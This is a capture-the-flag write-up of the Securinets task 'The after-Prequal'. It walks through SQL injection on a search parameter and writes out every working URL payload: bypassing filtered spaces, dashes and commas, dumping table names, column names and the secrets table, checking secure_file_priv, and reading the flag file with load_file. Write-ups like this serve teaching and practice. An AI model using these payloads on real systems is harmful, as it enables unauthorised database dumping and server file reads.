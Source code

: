 # **The after-Prequal (971pts) (19 Solves)**

![TASK](https://imgur.com/pXLjH4n.png)

This task was so fun and i learned new things from it , we are given a website with a search functionality and after testing a single quote injection we had an SQL error , so let's start the exploitation of the famous SQL injection :D

![TASK](https://imgur.com/B2IbSxr.png)

After the basic enumeration we can notice that these characters are filtered : **[" ","-",","]** so we will use the following bypasses:

1. The white space : **%0A**
2. The "-" : we will use **#** to comment 
3. The "," : we will use join to bypass it

This step took me some time , after some tries i succeeded in equilibrating the query :

 > ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0A2)b%0Ajoin%0A(select%0A3)c)%0A%23
 
 ![TASK]( https://imgur.com/5VSI80e.png)

And BINGO ! we succeeded to inject , all we have to do know is to dump the database as usual

1. Tables:

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Atable_name%0AfRoM%0Ainformation_schema.tables)b%0Ajoin%0A(select%0A3)c)%0A%23

**Table name**: secrets

 ![TASK](https://imgur.com/m190lNI.png)

2. Columns:

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Acolumn_name%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_name="secrets")b%0Ajoin%0A(select%0A3)c)%0A%23
 
 The interesting **Column name** : value

 ![TASK](https://imgur.com/TegJtmS.png)

And finally :

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Avalue%0Afrom%0Asecrets)b%0Ajoin%0A(select%0A3)c)%0A%23
 
 ![TASK](https://imgur.com/8ycD4ru.png)

Damn no flag for us :'( but no problem maybe if we just do load_file("flag.txt") we will have the flag ? unfortunately it wont work, in fact it's not that easy and this is the most juicy part of the task xd
i checked the privileges of the current user and the FILE permission was not grantable ! wtf , this result was unpredictable for me so i started digging in mysql file permissions docs until i found this :D 
 
![TASK](https://imgur.com/TgUXftd.png)

>  To limit the location in which files can be read and written, set the **secure_file_priv** system variable to a specific directory. See Section 5.1.8, “Server System Variables”. 

So probably the author have set a custom location in the global variable **secure_file_priv** , let's check its value in @@GLOBAL.secure_file_priv

>?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0A@@GLOBAL.secure_file_priv)b%0Ajoin%0A(select%0A3)c)%0A%23

![TASK](https://imgur.com/Pdn180B.png)

BINGOOO ! so let's have our flag now : 

> ?search=')union%0Aselect%0A*%0Afrom%0A((select%0A1)a%0Ajoin%0A(select%0Aload_file("/var/lib/mysql-files/flag/flag.txt"))b%0Ajoin%0A(select%0A3)c)%0A%23

**FLAG** : Securinets{SecuR3_YourSQL!} , I have enjoyed this task and learned a lot about mysql privileges from it , thank you @bibiwars or should i call you @nox xD If you enjoyed the writeup share it with your friends and don't hesitate to ask me on twitter @BelkahlaAhmed1 :D
